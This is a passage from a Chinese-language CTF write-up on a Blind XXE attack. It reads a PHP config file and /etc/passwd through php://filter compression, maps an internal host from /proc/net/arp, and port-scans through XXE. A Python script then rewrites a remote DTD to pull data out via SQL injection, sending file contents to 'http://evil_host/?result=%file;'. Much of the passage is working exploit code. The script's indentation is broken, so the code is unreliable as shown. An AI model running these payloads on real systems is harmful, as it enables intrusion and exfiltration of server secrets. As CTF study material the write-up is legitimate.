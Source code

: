 既然如此，那么我们是不是能读取该服务器上面的文件，我们先读配置文件(这个点是 Blind XXE ，必须使用参数实体，外部引用 DTD )

/var/www/52dandan.cc/public_html/config.php 

拿到第一部分 flag 

```php
<?php
  define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd"); 
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1"); 
```

**注意：**

这里有一个小技巧，当我们使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错，于是我们就需要使用 php过滤器的一个压缩的方法然后我们考虑内网有没有东西，我们读取

/proc/net/arp /etc/host 

找到内网的另一台服务器的 ip 地址 192.168.223.18 

拿到这个 ip 我们考虑就要使用 XXE 进行端口扫描了，然后我们发现开放了 80 端口，然后我们再进行目录扫描，找到一个 test.php ，根据提示，这个页面的 shop 参数存在一个注入,但是因为本身这个就是一个 Blind XXE ,我们的对服务器的请求都是在我们的远程 DTD 中包含的，现在我们需要改变我们的请求，那我们就要在每一次修改请求的时候修改我们远程服务器的 DTD 文件，于是我们的脚本就要挂在我们的 VPS 上，一边边修改 DTD 一边向存在 XXE 漏洞的主机发送请求，脚本就像下面这个样子

**示例代码：**

```python
import requests
url = 'http://39.107.33.75:33899/common.php'
s = requests.Session()
result = ''
data = {
    "name":"evil_man",
    "email":"testabcdefg@gmail.com",
    "comment":"""<?xml version="1.0" encoding="utf-8"?>
                <!DOCTYPE root [
                <!ENTITY % dtd SYSTEM "http://evil_host/evil.dtd">
                %dtd;]>
                """
}

for i in range(0,28):
    for j in range(48,123):
        f = open('./evil.dtd','w')
    payload2 = """<!ENTITY % file SYSTEM "php://filter/read=zlib.deflate/convert.base64-encode/resource=http://192.168.223.18/test.php?shop=3'-(case%a0when((select%a0group_concat(total)%a0from%a0albert_shop)like%a0binary('{}'))then(0)else(1)end)-'1">
                <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://evil_host/?result=%file;'>">
                %all;
                %send;""".format('_'*i+chr(j)+'_'*(27-i))
f.write(payload2)
f.close()
print 'test {}'.format(chr(j))
r = s.post(url,data=data)
if "Oti3a3LeLPdkPkqKF84xs=" in r.content and chr(j)!='_':
    result += chr(j)
    print chr(j)
    break
    print result
```
